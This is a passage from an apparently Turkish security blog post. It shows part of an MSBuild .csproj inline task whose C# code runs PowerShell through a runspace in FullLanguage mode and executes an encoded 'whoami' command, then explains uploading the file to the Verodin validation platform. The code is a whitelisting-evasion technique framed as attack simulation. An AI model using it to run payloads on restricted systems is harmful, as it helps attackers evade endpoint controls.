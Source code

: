 ```
        public static string RunPSCommand()
        {
                    
          //Init stuff
          
          InitialSessionState iss = InitialSessionState.CreateDefault();
          iss.LanguageMode = PSLanguageMode.FullLanguage;
          Runspace runspace = RunspaceFactory.CreateRunspace(iss);
          runspace.Open();
          RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);
          Pipeline pipeline = runspace.CreatePipeline();
          
          //Interrogate LockDownPolicy
          Console.WriteLine(System.Management.Automation.Security.SystemPolicy.GetSystemLockdownPolicy());        
          
          
          
          //Add commands
          pipeline.Commands.AddScript(("powershell -enc dwBoAG8AYQBtAGkA -noexit"));
          //Prep PS for string output and invoke
          pipeline.Commands.Add("Out-String");
          Collection<PSObject> results = pipeline.Invoke();
          

          //Convert records to strings
          StringBuilder stringBuilder = new StringBuilder();
          foreach (PSObject obj in results)
          {
            stringBuilder.Append(obj);
          }
          return stringBuilder.ToString().Trim();     
        }
      }
              
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```



Şimdi Verodin'e ekleyerek senaryoyu otomatize hale getirelim.

Verodin'e girdiğimizde Library kısmında Files seçeneğine geliyoruz ve Upload File diyoruz.

![verodinfiles](C:\Users\pc\Documents\canyoleri.github.io\canyoleri.github.io\static\images\pwsholmadan\verodinfiles.png)



Böyle bir ekran geliyor karşımıza. File Notes, Applicable OS/platform kısımlarını doldurup csproj dosyasını seçiyorum ve upload file diyorum.
